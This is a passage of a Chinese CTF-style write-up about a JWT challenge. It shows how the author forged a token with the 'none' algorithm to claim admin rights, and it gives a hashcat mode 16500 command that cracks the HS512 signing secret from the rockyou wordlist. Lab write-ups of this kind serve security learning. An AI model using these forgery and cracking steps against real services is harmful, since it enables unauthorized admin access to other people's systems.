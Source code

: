 #### 2.3.2 改签名：算法None

接下来要改签名，直接搜没看到什么暴力破解
倒是有算法改none的
![](../../images/Pasted%20image%2020241204163724.png)

使用从`base64.b64encode(b'{"alg":"none"}')` 转换的`eyJhbGciOiJub25lIn0`，以及改后的中间部分

```python
def jwtdecoder(secret_key, token):  
    try:  
        # 校验 JWT        
        decoded = jwt.decode(token, secret_key, options={"verify_signature": False})  
        print("JWT is valid. Decoded payload:")  
        print(decoded)  
    except jwt.ExpiredSignatureError:  
        print("JWT has expired.")  
    except jwt.InvalidTokenError:  
        print("JWT is invalid.")

token = ("eyJhbGciOiJub25lIn0.eyJpYXQiOjE3MzQxMjI0NTQsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9Cg."  
         "5UMXheXVy0dGaDEuWHGAyF0Vw8X6cqDlkaIC8v67QsyJbtJ_eASH0Pdf-lzsv48aU9wrFiiOuWwBjjMWCtw7qw")
jwtdecoder(secret_key, token)
```

这个是可以解出来的，但是，发包过去并不行
![](../../images/Pasted%20image%2020241204163935.png)
看来还是要爆破出来密钥？

补充：后面看了题解其实这个应该可以的，应该是我没有加.所以说格式不对
比如这样写：
`eyJhbGciOiJub25lIn0.eyJpYXQiOjE3MzQxMzU3MDYsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.`

#### 2.3.3 爆破密码

想到之前用hashcat爆破hash ，于是问gpt命令，gpt说对了一半，但告诉我要用:分隔，于是得到了这样的报错
![](../../images/Pasted%20image%2020241204165652.png)

> 应该使用的参考：
> hashcat支持的所有模式 https://hashcat.net/forum/thread-9854.html
> 16500 jwt模式使用 https://hashcat.net/forum/thread-10787.html

```shell
hashcat -m 16500 -a 0 eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE3MzQxMjI0NTQsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ:5UMXheXVy0dGaDEuWHGAyF0Vw8X6cqDlkaIC8v67QsyJbtJ_eASH0Pdf-lzsv48aU9wrFiiOuWwBjjMWCtw7qw /usr/share/wordlists/rockyou.txt
```

很快就出来了密钥

![](../../images/Pasted%20image%2020241204165716.png)

#### 2.3.4 最新时间戳
